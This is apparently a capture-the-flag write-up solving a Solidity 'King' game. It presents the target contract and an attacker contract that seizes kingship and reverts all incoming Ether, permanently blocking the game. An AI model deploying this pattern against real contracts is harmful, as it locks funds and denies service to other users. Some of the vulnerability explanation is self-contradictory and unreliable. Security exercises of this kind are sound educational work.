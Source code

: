 ### TASK
The task of the game is to be the player who sends the largest amount of ether to the game, thus becoming the "king." The objective of breaking the game would be to identify and exploit any vulnerabilities in the game's code that would allow a player to win the prize without actually sending the largest amount of ether. 
Such a fun game. Your goal is to break it.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

In Solidity, the receive function is a function that is automatically executed when a contract receives direct Ether payments. The receive function can be used to process incoming payments and update the state of the contract accordingly. The receive function is marked as external payable, which means it can receive direct Ether payments and access the msg.value property to determine the amount of the incoming payment.
<br/>

### CODE VUNERABILITIES
1. No mechanism to prevent ownership transfer: There is no mechanism in place to prevent the owner from transferring ownership of the contract to another address, potentially allowing an attacker to take control of the contract and modify its behavior. This is where we are going to break the game!

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

The function requires that the value of the incoming transaction (msg.value) should either be greater than or equal to the current prize (prize) or the sender of the transaction (msg.sender) should be the owner of the contract. This check allows the owner of the contract to always take the "kingship" of the contract, resetting all the values.
<br/>
<br/>

If the requirement is met, the function transfers the incoming payment to the current king (payable(king).transfer(msg.value)) and updates the king to the new sender (king = msg.sender) and the prize to the incoming payment value (prize = msg.value).
<br/>
<br/>
<br/>
From a security perspective, this function is a major concern as it enables the owner of the contract to reset everything without compensating the current king and leaving the funds trapped in the contract.
<br/>
If the transfer of ether to the current king fails, then the entire 'receive()' function will revert, making the contract unusable, meaning no one can become the new King. This can lead to a situation where funds are stuck in the contract and cannot be withdrawn, which is not desirable. To avoid this, it is recommended to use a mechanism that ensures that the transfer of funds to the current king is successful before updating the state of the contract. 
<br/>
This can be achieved using a pattern called "Safe Transfer" or by checking the return value of the transfer function and only updating the state of the contract if the transfer was successful.


### Breaking the game
We need to create and deploy a contract that will not accept any kind of Ether payment sent to it. 

```solidity
contract HackKing{
    constructor(address _instanceAddress) payable{
        (bool success, ) = payable(address(_instanceAddress)).call{value: msg.value}("");
        require(success, "Call failed");
    }

    receive() external payable {
        revert ("You can't be king!");
    }
}
```
The main purpose of the 'HackKing' contract is to take over the position of the King and stop accepting any Ether. By not including any payable functions, fallback or 'receive', no one is able to send Ether to the contract. 
<br/>
<br/>
The constructor of the contract takes an address of the king contract address and executes a call to that address with the incoming value from the payment. The 'receive' function is included in the contract, but it simply reverts any incoming payments with the message "You can't be king!".

<br/>
<b>Challenge Solved!!!</b>